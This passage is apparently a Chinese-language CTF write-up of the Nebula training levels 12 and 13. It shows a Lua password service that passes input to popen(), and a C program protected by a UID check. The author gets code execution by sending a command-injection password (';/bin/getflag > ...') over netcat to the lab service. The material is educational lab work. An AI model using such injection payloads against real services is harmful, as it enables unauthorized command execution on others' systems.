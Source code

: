 ```lua

    if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
      client:send("Better luck next time\n");
    else
      client:send("Congrats, your token is 413**CARRIER LOST**\n")
    end

  end

  client:close()
end
```

一段Lua脚本，逻辑简单清晰。脚本语言的好处就是你不懂语法，也能猜出个大概。

这段脚本监听50001端口，并需要连接后提交密码。显然我们最关心的是能不能运行shell脚本，因此定位到`hash()`中的`popen()`。

直接截断看看可不可以：

```bash
level12@nebula:~$ nc 127.0.0.1 50001
Password: ;/bin/getflag > /tmp/flag12.txt
Better luck next time
level12@nebula:~$ cat /tmp/flag12.txt 
You have successfully executed getflag on a target account
```

得来全不费工夫！

# Nebula level13 #
> There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id.
> 
> 这是一个具有安全验证的程序，可以阻止非指定用户的执行。

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
    printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
    printf("The system administrators will be notified of this violation\n");
    exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);
  
}
```
